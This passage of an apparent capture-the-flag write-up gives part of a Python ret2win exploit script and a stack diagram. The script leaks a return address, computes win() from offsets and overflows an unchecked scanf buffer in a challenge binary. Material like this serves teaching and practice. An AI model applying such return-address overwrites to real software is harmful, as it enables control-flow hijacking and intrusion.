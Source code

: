 ```python3
    print_step(f"Leaked return address: 0x{leaked_ret:016x}")

    # 3) Calculate the win() address: win_addr = leaked_ret - branch_offset + WIN_OFFSET
    branch_offset = CONFIG['BRANCH_OFFSETS'][branch_name]
    win_addr = leaked_ret - branch_offset + CONFIG['WIN_OFFSET']
    print_step(f"Branch offset ({branch_name}): 0x{branch_offset:x}")
    print_step(f"Calculated win() address: 0x{win_addr:016x}")

    # 4) Send the ret2win payload
    payload = win_addr.to_bytes(8, 'little')
    conn.sendline(b'a')  # Select a: Rename → Here we send the payload instead of a name
    print_step("Sending payload to trigger ret2win...")

    conn.sendline(payload)
    print_step("Payload sent, waiting for win() output...\n")

    # 5) Capture and print the output
    output = conn.clean().decode(errors='ignore')
    print(output)

    # End the connection
    conn.close()

def main():
    args = parse_args()
    print_step(f"Starting the exploit for {args.branch} function.")
    
    # Iterate over all branch offsets for the current run (square_root, multiplication, xor)
    for branch_name in CONFIG['BRANCH_OFFSETS']:
        print_step(f"\n--- Exploiting {branch_name} ---")
        exploit(branch_name, args.remote)

if __name__ == '__main__':
    main()
``` 
Every step is commented so you know why it’s there.

## Overview of the Exploit
### Before the Buffer Overflow
```asm
   [ High Addr ]
   ┌──────────────────┐
   │ … other data …   │
   ├──────────────────┤ ← RSP on entry
   │ return PC to     │  rename_()+0x…  
   │   caller         │
   ├──────────────────┤
   │ saved RBP        │
   ├──────────────────┤
   │ buffer           │ ← user input (no bounds check)
   └──────────────────┘
``` 
- **Return PC to `rename_()`**: This is the saved return address where the program will jump after `change_name()` finishes.
- **Saved RBP**: The base pointer, stored before `change_name` executes.
- **Buffer**: The user input buffer where input data directly overflows into the return address, as no bounds check is done on scanf.

